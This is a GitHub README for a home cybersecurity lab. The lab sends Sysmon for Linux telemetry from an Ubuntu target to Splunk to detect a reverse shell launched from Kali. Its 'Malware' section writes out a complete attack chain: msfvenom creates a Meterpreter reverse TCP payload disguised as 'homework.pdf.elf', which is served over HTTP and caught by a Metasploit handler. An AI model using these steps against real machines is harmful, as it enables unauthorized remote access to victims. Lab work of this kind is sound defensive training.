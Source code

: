 # 💻 Sysmon-to-Splunk: Reverse Shell Attack Detection

**Stack:** VirtualBox, Kali Linux (attacker), Ubuntu (target), Sysmon-for-Linux, Splunk, Metasploit, msfvenom, python HTTP

**Focus:** Endpoint Telemetry, SIEM Integration, and Threat Detection

**Goal:** Build and analyze a real attack scenario using Sysmon for Linux and Splunk SIEM

## 🔍 Overview

This lab simulates a **realistic endpoint compromise** in a controlled environment.  
Using **Kali Linux** as the attacker and **Ubuntu** as the target, I generated and analyzed **Sysmon telemetry** to detect malicious activity through **Splunk SIEM**.

The project bridges **red-team tactics** and **blue-team analysis**, showing how attacker actions translate into logs, and how defenders can identify those behaviors.

## 🧱 Lab Setup and Architecture

1. Install VirtualBox on your host OS.

2. Create the VMs:
   - **Ubuntu target** — install from [ISO](https://ubuntu.com/download/desktop).
   - **Kali attacker** — import the [Kali](https://www.kali.org/get-kali/#kali-platforms) VirtualBox image (or install from ISO).
   - Both VMs are in a internal network.

1. Allocate resources:
   - Set RAM and CPU for each VM depending on host resources.
   - *Example:* Kali: 4 GB RAM, 4 vCPU. Ubuntu: 4 GB RAM, 3 vCPU.

| Network Diagram                       |
| ------------------------------------- |
| ![diagram](./docs/diagram.png)        |  

## ⚙️ Documentation

### 1. Install Splunk on Ubuntu (Target)

1. Download Splunk Enterprise for Linux (from [Splunk website](https://www.splunk.com/en_us/products/splunk-enterprise.html)) on the Ubuntu VM.

2. Keep in mind that you will need internet connection to install Splunk.

3. On Ubuntu, install:
```shell
# replace splunk_package.deb with the name of your .deb file
sudo dpkg -i ./splunk_package.deb

# start splunk
sudo /opt/splunk/bin/splunk start
   ```

4. Visit the Splunk web UI from the Ubuntu machine at: http://localhost:8000

### 2. Install Sysmon on Ubuntu (Target)

1. Please visit the official [sysmonforlinux](https://github.com/microsoft/SysmonForLinux) repo for more information.

2. Register Microsoft key and feed
```
wget -q https://packages.microsoft.com/config/debian/$(. /etc/os-release && echo ${VERSION_ID%%.*})/packages-microsoft-prod.deb -O packages-microsoft-prod.deb
sudo dpkg -i packages-microsoft-prod.deb
```

2. Install sysmonforlinux
```
sudo apt-get update
sudo apt-get install sysmonforlinux
```

3. Update sysmon config, with (provided config)[./configs/sysmonconfig.xml], taken from [OpenSecureCo](https://github.com/OpenSecureCo/Demos/blob/main/sysmonforlinux)
```
nano /opt/config.xml
```

4. To test, see logs using:
```
sudo tail -f /var/log/syslog | sudo /opt/sysmon/sysmonLogView
```

### 3. Malware

1. Note the ip of the attacker machine (Kali)
```
ip a
```

2. Create the reverse tcp payload with msfvenom using:
```
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.20.11 LPORT=4444 -f elf -o homework.pdf.elf
```
*note: lhost is the attackeer ip, elf executable file format is used for payload.*

4. Start msfconsole and prepare the handler and run exploit
```
use exploit/multi/handler
set payload linux/x64/meterpreter_reverse_tcp
set LHOST 192.168.20.11
exploit
```
- *note that the default payload for exploit/multi/handler is generic/shell_reverse_tcp (see below); explicitly set payload to linux/x64/meterpreter_reverse_tcp.*
![options](./docs/options.png)

5. Serve the payload with Python HTTP server
```
python3 -m http.server 9999
```

6. Install the malware on Ubuntu by visiting `192.168.20.11:9999` on a browser and downloading it from the python server. After installing:
```
chmod +x homework.pdf.elf
./homework.pdf.elf
```

7. After executing the payload, the handler on Kali should show a new Meterpreter session (see below). 
![handler](./docs/establish.png)

- In msfconsole you can interact with the Ubunut machine from the attacker machine using `shell` with the following commands:
```
shell
ip a 
user
getent group
```
- `ip a` shows network interfaces
- `user` lists users
- `getent group` retrieves group info from administrative databases

8. On the target machine, we can see that we have an established connection with the attacker machine using `sudo ss -tp`:.
```
ESTAB  0  0  192.168.20.10:34944  192.168.20.11:4444  users:((“sh”,pid=8931,fd=4),(“homework.pdf.el”,pid=8370,fd=4))
```
- *note that the peer address (2nd ip) is the attacker machines ip with the port of the handler.*
link

### 4. Telemetry

1. Configure Splunk to ingest sysmon entries

- On the Ubuntu machine running Splunk , navigate to $SPLUNK_HOME/etc/apps/search/local/ or the inputs.conf location. If there's no inputs.conf present, copy from the default app folder and add:
```
[monitor:///var/log/syslog]
disabled = 0
index = endpoint
sourcetype = sysmon:linux
```

- Save the file and restart:
```
sudo /opt/splunk/bin/splunk restart
```

- In Splunk web: Settings → Indexes → Add new index: endpoint (or the name you used).

- Confirm data ingestion by searching the new index: index=endpoint in the Search & Reporting app, the resuilt shoud look like:
![result](./docs/search1.png)


2. Example Splunk queries

- All events in the endpoint index:
```
index=endpoint
```

- Search for attacker IP
```
index=endpoint "192.168.20.11"
```


## 💡 Future Improvements

> 🔧 **Work in Progress** — This is a work in progress lab, and I plan to improve it in the future.

- Add Splunk dashboards or alerts for Sysmon events.

- Test Windows Sysmon vs. Linux Sysmon telemetry differences.

- Add MITRE ATT&CK mapping for detected behaviors.


## 🏁 Final Thoughts

This lab bridges offensive and defensive cybersecurity skills, and allowed me to see how a SIEM can be used to detect, analyze, and investigate real-world attack activity in a safe environment.
